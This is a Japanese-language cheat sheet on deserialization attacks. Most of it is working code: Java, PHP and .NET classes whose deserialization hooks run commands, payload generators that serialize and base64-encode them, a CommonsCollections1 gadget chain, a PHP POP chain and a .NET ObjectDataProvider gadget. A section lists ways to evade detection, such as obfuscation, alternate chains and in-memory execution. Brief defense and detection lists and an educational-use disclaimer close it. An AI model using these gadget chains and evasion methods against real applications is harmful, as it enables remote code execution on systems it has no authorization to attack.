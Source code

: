 # デシリアライゼーション攻撃手法

## 概要
各言語でのデシリアライゼーション脆弱性と攻撃手法について解説します。

## Java

### 基本的な攻撃
```java
// 脆弱なデシリアライゼーション
public class VulnerableClass implements Serializable {
    private String command;
    
    private void readObject(ObjectInputStream ois) throws Exception {
        ois.defaultReadObject();
        Runtime.getRuntime().exec(command);
    }
}

// 攻撃ペイロード生成
public static void main(String[] args) throws Exception {
    VulnerableClass vuln = new VulnerableClass();
    vuln.command = "calc.exe";
    
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(vuln);
    
    String payload = Base64.getEncoder().encodeToString(baos.toByteArray());
    System.out.println(payload);
}
```

### Commons Collections攻撃
```java
// CommonsCollections1ガジェットチェーン
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", 
        new Class[] {String.class, Class[].class},
        new Object[] {"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke",
        new Class[] {Object.class, Object[].class},
        new Object[] {null, new Object[0]}),
    new InvokerTransformer("exec",
        new Class[] {String.class},
        new Object[] {"calc.exe"})
};

Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
innerMap.put("value", "value");
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
```

## PHP

### 基本的な攻撃
```php
// 脆弱なクラス
class VulnerableClass {
    private $command = 'ls';
    
    function __wakeup() {
        system($this->command);
    }
}

// 攻撃ペイロード生成
$vuln = new VulnerableClass();
$payload = serialize($vuln);
echo base64_encode($payload);

// マジックメソッドを使用した攻撃
class Evil {
    function __toString() {
        system('id');
        return '';
    }
}
```

### POPチェーン攻撃
```php
// Property Oriented Programming
class A {
    public $b;
    function __destruct() {
        $this->b->execute();
    }
}

class B {
    public $cmd;
    function execute() {
        system($this->cmd);
    }
}

$b = new B();
$b->cmd = 'id';
$a = new A();
$a->b = $b;

echo serialize($a);
```

## .NET

### 基本的な攻撃
```csharp
// 脆弱なクラス
[Serializable]
public class VulnerableClass {
    public string command;
    
    [OnDeserialized]
    private void OnDeserialized(StreamingContext context) {
        Process.Start("cmd.exe", "/c " + command);
    }
}

// 攻撃ペイロード生成
var vuln = new VulnerableClass { command = "calc.exe" };
var formatter = new BinaryFormatter();
using (var ms = new MemoryStream()) {
    formatter.Serialize(ms, vuln);
    var payload = Convert.ToBase64String(ms.ToArray());
    Console.WriteLine(payload);
}
```

### ObjectDataProviderガジェット
```csharp
var payload = new ObjectDataProvider {
    MethodName = "Start",
    ObjectInstance = new Process(),
    MethodParameters = {
        "cmd.exe",
        "/c calc.exe"
    }
};
```

## 検知回避テクニック
- シリアライズデータの難読化
- 代替ガジェットチェーンの使用
- カスタムエンコーディング
- メモリ内実行

## 防御策
- 信頼できないデータのデシリアライズ禁止
- ホワイトリストによる型制限
- カスタムシリアライザの使用
- セキュアな設定の適用

## 検知方法
- 不審なデシリアライズ操作
- 異常なプロセス生成
- ガジェットチェーンの検出
- メモリパターンの分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 